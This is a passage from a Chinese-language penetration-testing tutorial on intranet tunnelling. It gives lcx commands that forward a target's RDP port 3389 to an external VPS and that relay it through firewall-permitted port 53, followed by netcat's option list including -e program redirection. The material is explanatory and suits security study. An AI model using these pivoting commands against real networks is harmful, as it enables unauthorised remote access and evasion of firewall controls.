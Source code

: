 >-x：指定ICMP隧道连接的验证密码
-p：指定ICMP隧道另一端的IP
-lp：指定要监听的本地TCP端口
-da：指定要转发的目标机器的IP
-dp：指定要转发的目标机器的TCP端口


### 传输层隧道技术
传输层技术包括TCP隧道、UDP隧道和常规端口转发等

#### lcx
lcx是一个基于Socket套接字实现的端口转发工具，有Windows和Linux两个版本。Windows版为lcx.exe，Linux版为portmap。一个正常的Socket隧道必须具备两端：一端为服务端，监听一个端口，等待客户端的连接；另一端为客户端，通过传入服务器的IP地址和端口，才能主动与服务器连接
![](https://img-blog.csdnimg.cn/b644db95eff54e21a93f979ffd42913f.png)
**内网端口转发**
将目标主机3389端口的所有数据转发到公网VPS的444端口上
```bash
lcx.exe -slave <公网主机IP地址> 4444 127.0.0.1 3389
```
在VPS上执行
```bash
lcx.exe -listen 4444 5555
```
将本地4444端口上监听的所有数据转发到本机的5555端口上，此时使用`mstsc`登录VPS的5555端口即可访问目标服务器的3389端口
**本地端口映射**
如果目标服务器由于防火墙的限制，部分端口(例如3389)的数据无法通过防火墙，可以将目标服务器相应端口的数据透传到防火墙允许的其他端口(例如53)
```bash
lcx.exe -tran 53 <目标主机IP地址> 3389
```
![](https://img-blog.csdnimg.cn/aea7e5eb486b43788080cb75e4d3f817.png)

#### netcat
[https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)
![](https://img-blog.csdnimg.cn/e3d969d6d5904f43bf97688b3f81d1f3.png)

>-d 后台模式
-e prog 程序重定向
-g gateway 源路由跳跃点, 不超过8
-G num 源路由指示器: 4, 8, 12, ...
-h 获取帮助信息
-i secs 设置时间间隔，以便传送信息及扫描通信端口
-l 使用监听模式，管路和控制传入的数据
-n 直接使用IP地址
-o file 指定文件名称，把往来传输的数据转换为十六进制字节码后保存在该文件中
-p port 设置本地主机使用的通道端口
-r 随机指定本地和远程主机的通道端口
-s addr 设置本地主机送出数据包的IP地址
-t 以TELNET的形式应答入站请求
-u UDP模式
-v 显示详细信息 
-w secs 设置等待连线的时间
-z I/O 模式，只在扫描通信端口时使用
